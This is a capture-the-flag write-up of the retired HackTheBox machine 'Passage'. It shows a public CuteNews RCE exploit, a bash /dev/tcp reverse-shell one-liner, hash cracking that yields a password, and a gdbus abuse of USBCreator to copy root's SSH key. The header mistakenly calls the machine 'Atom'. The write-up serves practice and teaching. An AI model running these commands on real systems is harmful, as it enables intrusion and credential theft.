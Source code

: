 ```yaml
---
title: HackTheBox - Passage Writeup
subtitle: Here's my writeup for the RETIRED machine Atom, Which is a Medium Linux machine!
summary: Here's my writeup for the RETIRED machine Atom, Which is a Medium Linux machine!
date: '2021-07-10'
draft: false
authors: ['elleuch']
categories: ['HackTheBox', 'Medium']
tags: ['HackThebox', 'Medium','Linux']
image: /assets/img/htb-passage/featured.png
render_with_liquid: false
---
```


# Information Gathering

## Nmap scan 
`rustscan -a 10.10.10.206 -- -A -sC -sV`

```
Open 10.10.10.206:22
Open 10.10.10.206:80
```

```
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)

| ssh-hostkey: 
|   2048 17:eb:9e:23:ea:23:b6:b1:bc:c6:4f:db:98:d3:d4:a1 (RSA)
|   256 71:64:51:50:c3:7f:18:47:03:98:3e:5e:b8:10:19:fc (ECDSA)
|   256 fd:56:2a:f8:d0:60:a7:f1:a0:a1:47:a4:38:d6:a8:a1 (ED25519)

80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Passage News

```

<p> We have two ports open 
	Port 22 : OpenSSH 7.2p2
	Port 80 : Apache httpd 2.4.18
</p>

## Exploring the WebServer

Let's first add Passage.htb to our hosts file!


We can see that Fail2Ban is Implemented on the server! So no need to waste our time trying bruteforcing dirs and files

<img src="/assets/img/htb-passage/fail2ban.png"> 

What really catchs my eye is 

`Powered by CuteNews`

A simple search on google can reveal the default dir for CuteNews CMS which is /CuteNews/

Let's see what we get!
<img src="/assets/img/htb-passage/cuteCMS.png">
Nice! We got the CMS version 

`Powered by CuteNews 2.1.2`

Let's find a vulnerability related to this version!

# Initial Foothold


Let's see what searchsploit has for us!

<img src="/assets/img/htb-passage/Searchsploit.png">

Let's grab that juicy RCE python exploit

```
searchsploit -m php/webapps/48800.py
```


And run our script, We only need to provide <b>	http://passage.htb</b>

```
python3 48800.py
```
<img src="/assets/img/htb-passage/foothold.png">

And we're on the box!

Let's get a proper shell on the box!

`/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'`

<img src="/assets/img/htb-passage/pwncat.png">

# User Privesc

## Paul user 


Going through the webserver config, I found an interesting directory

`/var/www/html/CuteNews/cdata/users`

Which seem to contain some juicy encoded informations

<img src="/assets/img/htb-passage/encoded.png">

It looks like it's Base64 encoded!
Let's decode it

```
a:1:{s:4:"name";a:1:{s:5:"admin";a:8:{s:2:"id";s:10:"1592483047";s:4:"name";s:5:"admin";s:3:"acl";s:1:"1";s:5:"email";s:17:"nadav@passage.htb";s:4:"pass";s:64:"7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1";s:3:"lts";s:10:"1592487988";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
```

```
a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd";s:3:"lts";s:10:"1592485556";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
```

Seems like we got nadav and paul's hash password

It's a sha2-256 hash, we're gonna use Hashcat with the rockyou wordlist to crack them!

```
echo "7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1" > hash 
echo "e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd" > hash
```

```
hashcat -m 1400 hash /opt/rockyou.txt
```

Seems like we were only able to crack paul's hash!

<img src="/assets/img/htb-passage/cracked.png">

`paul:atlanta1`

And grab our user flag


## Nadav user

We can notice that nadav can access paul's session

<img src="/assets/img/htb-passage/ssh.png">

Let's see if paul's can access nadav's session

```
ssh nadav@passage
```

<img src="/assets/img/htb-passage/nadav.png">

It worked!

# Root Privesc

Let's first run 
```
ps -aux
```
To see the current running processes!
<img src="/assets/img/htb-passage/usb.png">
What really catches me is that root is running, and that's odd
```
/usr/bin/python3 /usr/share/usb-creator/usb-creator-helper
```
A bit a searching/reading from google can lead us to something, which is the ability to get any file we want!


```
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /dev/shm/id_rsa true
```
<img src="/assets/img/htb-passage/root1.png">

And we rooted the box! 
